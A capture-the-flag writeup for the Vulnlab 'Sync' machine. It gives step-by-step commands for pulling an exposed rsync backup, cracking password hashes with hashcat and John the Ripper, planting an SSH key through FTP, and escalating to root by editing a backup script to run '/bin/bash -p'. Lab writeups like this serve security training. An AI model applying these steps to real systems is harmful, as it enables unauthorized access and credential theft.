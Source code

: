 +++
title = 'Vulnlab :: Sync Writeup'
date = 2025-01-15T12:02:13+01:00

draft = false

summary = 'Vulnlab :: Sync Writeup'

categories = ["vulnlab", "ctf", "misconfigurations"]

tags = ["exegol", "nmap", "linux", "ctf", "hashcat", "john-the-ripper", "pwncat-cs", "misconfigurations", "rsync", "php", "sqlite", "ftp", "ssh"]
+++

![pwned-sync](image-17.png)

## Enumeration

### Nmap scan

I start with a standard scan using nmap

```
Starting Nmap 7.93 ( https://nmap.org ) at 2025-01-02 18:11 CET
Nmap scan report for 10.10.95.205
Host is up (0.036s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.5
22/tcp  open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 5840f1968f678e470e7ee41c1128949c (ECDSA)
|_  256 4b59e4b26397e5142d4df8d8c913ca2c (ED25519)
80/tcp  open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Login
|_http-server-header: Apache/2.4.52 (Ubuntu)
873/tcp open  rsync   (protocol version 31)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

## Rsync

```sh
rsync -av --list-only rsync://10.10.95.205/
```

```sh
rsync -av --list-only rsync://10.10.95.205/httpd
```

![rsync](image.png)

The machine has an exposed rsync, which contains a application backup

```sh
rsync -av rsync://10.10.95.205/httpd ./httpd
```

## App

### PHP

In the PHP code, there is a secret and the logic that creates the hashes

![index-php](image-1.png)

### Database

![db](image-2.png)

In the database, there are the hashes of 2 users

### hashcat

![hashes](image-3.png)

Using Hashcat, I managed to crack the hash of the password for the user `triss`

![hascat modes](image-4.png)

![cracked](image-5.png)

## FTP

### FTP access

![ssh triss](image-6.png)


We cannot log in to SSH with the obtained password because key-based login is set, but we can log in to the FTP server

![ftp](image-7.png)

### SSH key upload

![home](image-16.png)

The FTP server's directory is the home directory of the user `triss`, which in this case allows for the upload of our public key

```sh
cp ./.ssh/id_rsa.pub /workspace/
```

```sh
cat id_rsa.pub > authorized_keys
```

![ftp1](image-8.png)

![ftp2](image-9.png)

```sh
ssh triss@10.10.95.205 -i id_rsa
```

Logging in using the public key is now possible

## Privilege escalation

### Guessing

![home-diretory](image-10.png)

In the user's directory, we do not find the user flag, but there is a small reference to "The Witcher" by Andrzej Sapkowski in the task, which makes it easy to guess that the password for the user `jennifer` is the same as for `triss`

At this point, we have obtained the user flag!

### /backup

![backups](image-11.png)

After using LinPEAS, I went to the /backup directory

![backup](image-12.png)

### John The Ripper

```sh
unshadow passwd shadow > hash.txt
```

```sh
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=crypt
```

From the backup, we manage to obtain the password for the user `sa`

### backup.sh

![linpeas](image-14.png)

```sh
#!/bin/bash

mkdir -p /tmp/backup
cp -r /opt/httpd /tmp/backup
cp /etc/passwd /tmp/backup
cp /etc/shadow /tmp/backup
cp /etc/rsyncd.conf /tmp/backup
zip -r /backup/$(date +%s).zip /tmp/backup
rm -rf /tmp/backup
```

After using LinPEAS again, we discover a backup script that is owned by the user `sa`

![new backup.sh](image-15.png)

```sh
/bin/bash -p
```

After modifying the content of the script and executing it, I can gain access as `root`
